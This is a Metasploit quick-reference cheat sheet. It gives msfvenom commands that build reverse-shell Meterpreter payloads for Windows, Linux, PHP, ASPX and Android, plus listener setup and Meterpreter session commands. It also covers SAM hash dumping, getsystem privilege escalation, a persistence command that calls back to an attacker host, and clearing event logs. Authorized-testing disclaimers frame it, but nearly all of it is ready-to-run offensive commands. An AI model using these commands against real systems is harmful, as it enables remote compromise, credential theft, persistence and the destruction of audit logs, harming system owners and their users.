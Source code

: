 
# Metasploit Framework Quick Reference (2025)

> **For authorized penetration testing only**  
> Always obtain written permission before testing any system.

---

## 1. Payload Generation with `msfvenom`

### Windows Payloads
```bash
# Staged (x64)
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f exe > payload.exe

# Stageless (x86)
msfvenom -p windows/meterpreter_reverse_tcp LHOST=<IP> LPORT=4444 -f exe > payload_stageless.exe

# HTTPS Transport (evasion)
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<IP> LPORT=443 -f exe > payload_https.exe
```

### Linux Payloads
```bash
# x64
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f elf > payload.elf

# x86
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f elf > payload_x86.elf
```

### Web Payloads
```bash
# PHP
msfvenom -p php/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f raw > payload.php

# ASPX
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f aspx > payload.aspx
```

### Android Payloads
```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f raw > payload.apk
```

---

## 2. Listener Configuration with `msfconsole`

### Basic TCP Listener
```bash
msfconsole -q
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <IP>
set LPORT 4444
set ExitOnSession false
exploit -j
```

### HTTPS Listener (Better Evasion)
```bash
set PAYLOAD windows/x64/meterpreter/reverse_https
set LPORT 443
exploit -j
```

---

## 3. Meterpreter Session Management

### Session Interaction
```bash
sessions -l          # List sessions
sessions -i 1        # Interact with session 1
background           # Background current session
```

### Common Commands
```bash
sysinfo             # System information
getuid              # Current user context
ps                  # List running processes
migrate <PID>       # Migrate to another process
hashdump            # Dump SAM hashes (Admin required)
```

---

## 4. Post-Exploitation

### Privilege Escalation (Windows)
```bash
use post/windows/escalate/getsystem
run
```

### Persistence (Windows)
```bash
run persistence -U -i 60 -p 443 -r <IP>
```

---

## 5. Cleanup

### Remove Artifacts
```bash
rm payload.exe
clearev  # Clear logs
```

### Kill Handlers
```bash
jobs -K
```

---

## Legal & Ethical Reminder
- **Always** operate within authorized scope.
- Document all actions for reporting.
- Avoid production systems unless explicitly permitted.
```

